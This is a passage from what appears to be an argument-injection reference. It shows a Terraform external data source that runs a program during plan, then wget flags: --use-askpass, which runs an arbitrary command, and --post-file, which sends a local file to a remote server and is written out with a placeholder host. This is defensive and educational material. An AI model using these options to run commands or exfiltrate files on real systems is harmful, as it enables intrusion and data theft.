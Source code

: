 ```tf
data "external" "example" {
  program = ["python", "${path.module}/example-data-source.py"]

  query = {
    # arbitrary map from strings to strings, passed
    # to the external program as the data query.
    id = "abc123"
  }
}
```

References:
- [Terraform Plan "RCE"](https://alex.kaskaso.li/post/terraform-plan-rce)
- [Terraform as part of the software supply chain, Part 1 - Modules and Providers](https://about.gitlab.com/blog/2022/06/01/terraform-as-part-of-software-supply-chain-part1-modules-and-providers/)
- [Terraform Docs: Command: plan](https://www.terraform.io/docs/cli/commands/plan.html)
- [Terraform Docs: Provider Configuration](https://www.terraform.io/docs/language/providers/configuration.html)
- [Terraform Docs: The Module providers Meta-Argument](https://www.terraform.io/docs/language/meta-arguments/module-providers.html)

# wget

## --use-askpass

[--use-askpass](https://www.gnu.org/software/wget/manual/wget.html) specifies the command to prompt for a user and password. This key can be used to execute arbitrary commands without any arguments and stdout/stderr.

If no command is specified then the command in the environment variable `WGET_ASKPASS` is used. If `WGET_ASKPASS` is not set then the command in the environment variable `SSH_ASKPASS` is used. Additionally, the default command for `use-askpass` can be set up in the `.wgetrc`.

```bash
$ wget --use-askpass=cmdname http://0/
```

References:
- [GTFOArgs: wget](https://gtfoargs.github.io/gtfoargs/wget/)

## --post-file

[--post-file](https://www.gnu.org/software/wget/manual/wget.html) can be used to exfiltrate files in a POST request.

```bash
# sends a local file to a remote server 
# file is sent as-is
$ wget --post-file=/path/to/file https://website.com/
```

References:
- [GTFOArgs: wget](https://gtfoargs.github.io/gtfoargs/wget/)
